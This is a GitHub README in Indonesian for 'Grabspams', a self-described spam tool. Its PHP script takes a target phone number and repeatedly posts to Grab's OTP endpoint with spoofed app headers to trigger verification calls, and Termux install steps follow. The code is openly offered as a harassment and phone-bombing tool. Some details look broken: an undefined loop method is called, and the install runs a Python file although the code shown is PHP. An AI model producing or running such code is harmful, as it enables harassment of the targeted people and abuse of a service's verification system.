

# Grabspams:
*Grab merupakan salah satu tool spam*
```php
<?php
function get() {
    return trim(fgets(STDIN));
}
class prankcall {
    public function __construct($no) {
        $this->number = $no;
    }
    private function get() {
        return trim(fgets(STDIN));
    }
    private function correct($no) {
        $cek = substr($no, 0, 2);
        if ($cek == "08") {
            $no = "62" . substr($no, 1);
        }
        return $no;
    }
    private function ekse() {
        $no = $this->correct($this->number);
        $rand = rand(0123456, 9999999);
        $rands = $this->randStr(12);
        $post = "method=CALL&countryCode=id&phoneNumber=$no&templateID=pax_android_production";
        $h[] = "x-request-id: ebf61bc3-8092-4924-bf45-$rands";
        $h[] = "Accept-Language: in-ID;q=1.0, en-us;q=0.9, en;q=0.8";
        $h[] = "User-Agent: Grab/5.20.0 (Android 6.0.1; Build $rand)";
        $h[] = "Content-Type: application/x-www-form-urlencoded";
        $h[] = "Content-Length: " . strlen($post);
        $h[] = "Host: api.grab.com";
        $h[] = "Connection: close";
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, "https://api.grab.com/grabid/v1/phone/otp");
        curl_setopt($ch, CURLOPT_POST, 1);
        curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
        curl_setopt($ch, CURLOPT_HTTPHEADER, $h);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $x = curl_exec($ch);
        curl_close($ch);
        $ekse = json_decode($x, true);
        if (empty($ekse['challengeID'])) {
            echo "
";
            echo "\033[0m[\033[1;31m!\033[0m] \033[1;77mKeluar dari program!";
            echo "
";
            echo "
";
        } else {
            echo "\033[0m[\033[1;36m+\033[0m] \033[1;77mBerhasil
";
        }
    }
private function randStr($l) {
        $data = "abcdefghijklmnopqrstuvwxyz1234567890";
        $word = "";
        for ($a = 0;$a < $l;$a++) {
            $word.= $data{rand(0, strlen($data) - 1) };
        }
        return $word;
    }
    public function run() {
        while (true) {
            echo "\033[0m[\033[1;35m?\033[0m] \033[1;77mLanjut untuk spam ? \033[0m[Y/n]: \033[1;77m";
            $loop = $this->get();
            if ($loop == "y" OR $loop == "n") {
                break;
            } else {
                echo "\033[0mJika ya jawab [Y] Jika tidak jawab [N]
";
                continue;
            }
        }
        if ($loop == "y") {
            echo "\033[0m[\033[0m\033[1;33m/\033[0m] \033[1;77mJumlah spam: \033[0m";
            $many = $this->get();
            $this->loop($many);
        } else {
            $this->ekse();
        }
    }
}
echo "\033[0m[\033[1;32m+\033[0m] \033[1;77mMasukan Nomor Target: \033[0m";
$no = get();
$n = new prankCall($no);
$n->run();
```
#### Screenshot:

#### Cara Menginstall:
```
pkg update && pkg upgrade
apt-get install git
apt-get install python
apt-get install php
git clone https://github.com/stepbystepexe/Grabspams
cd Grabspams
ls
python3 grabspams.py
```
#### Kontak:
+ Email d_q16x@outlook.co.id
+ WhatsApp +62 85775433901
#### Paypal:
https://www.paypal.com/cgi-bin/webscr?cmd=_s-xclick&hosted_button_id=CLKRT5QXXFJY4&source=url
#### LiberaPay:
<noscript><a href="https://liberapay.com/stepbystepexe/donate"></a></noscript>
